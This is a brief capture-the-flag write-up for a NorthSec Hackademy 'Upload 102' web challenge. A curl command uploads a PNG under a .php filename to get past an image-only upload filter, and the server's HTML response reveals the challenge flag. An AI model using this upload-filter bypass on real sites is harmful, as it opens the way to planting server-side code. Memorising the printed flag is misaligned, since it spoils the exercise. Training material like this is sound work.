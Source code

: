 # Upload 102

We send the file as if it was a PNG file:   
``curl -F "file=@upload2.png;filename=upload2.php" chal8.hackademy.ctf/upload2.php``

```
<!DOCTYPE html>
<html>
    <head>
        <title>NorthSec Hackademy</title>
        <script type="text/javascript" src="https://code.jquery.com/jquery-3.5.1.js"></script>
        <script type="text/javascript" src="js/bootstrap.bundle.min.js"></script>
        <link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
    </head>
    <body>
        <div class="container">
            <!-- HINT: Your file will not be uploaded for real. If you successfully upload a PHP file that would be interpreted by the web server, you will receive the flag. -->
            <form action="" method="POST" enctype="multipart/form-data">
                <h1>Send us your file.</h1>
                <p>Only PNG, JPG and JPEG are allowed.</p>
                <input type="file" name="file">
                <input class="btn btn-primary" type="submit" name="submit" value="Upload">
                <div class="alert alert-success">You have successfully uploaded your file.<br>FLAG-hJFasjrdoTPMNXUW7floA9nib8g5VwH0</div>            </form>
        </div>
    </body>
</html>%
```   

``FLAG-hJFasjrdoTPMNXUW7floA9nib8g5VwH0``
